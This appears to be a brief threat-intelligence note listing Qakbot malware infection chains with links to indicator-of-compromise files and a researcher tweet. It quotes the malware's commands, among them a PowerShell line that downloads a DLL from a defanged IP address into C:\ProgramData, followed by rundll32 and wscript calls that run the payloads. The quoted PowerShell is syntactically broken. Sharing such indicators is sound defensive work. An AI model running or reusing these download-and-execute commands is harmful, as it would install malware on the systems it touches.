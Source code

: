 

#Qakbot - BB32 - pdf > url > .js > ps > .dll

wscript Cx.js

powershell $res = "http://149.154.158.]191/znxlW/MGjrJji3RDB"; foreach ($Fo in $res) try {$Go = FromBase64($Fo)); iwr $Go -O C:\ProgramData\99.9.dll

rundll32 C:\ProgramData\99.9.dll,must

IOC's
https://github.com/pr0xylife/Qakbot/blob/main/Qakbot_BB32_16.06.2023.txt

### .pdf > .zip > curl > .dll

[#Qakbot](https://twitter.com/hashtag/Qakbot?src=hashtag_click) - obama268 - .pdf > .zip > curl > .dll
https://twitter.com/Cryptolaemus1/status/1669024540482052103



![proxy everywhere](/assets/images/proxy7.png)


#Qakbot - obama268 - .pdf > .zip > curl > .dll      

wscript CalculationOfCosts-1337.js
